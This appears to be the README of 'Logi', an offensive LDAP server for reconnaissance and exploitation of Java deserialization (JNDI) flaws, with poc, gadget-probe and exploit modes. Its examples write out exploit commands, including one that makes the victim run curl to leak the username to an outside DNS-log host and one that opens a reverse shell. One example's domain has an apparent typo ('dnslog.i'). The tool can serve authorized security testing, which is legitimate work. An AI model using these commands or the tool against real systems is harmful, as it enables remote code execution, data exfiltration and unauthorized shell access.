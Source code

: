 # LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.


- [LOGI](#logi)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
  - [💻See also](#see-also)

## ✨Get started
Download logi from release.
Use `-h` to show help.
![image](image/logi.png)

## ⚙️How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.i'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)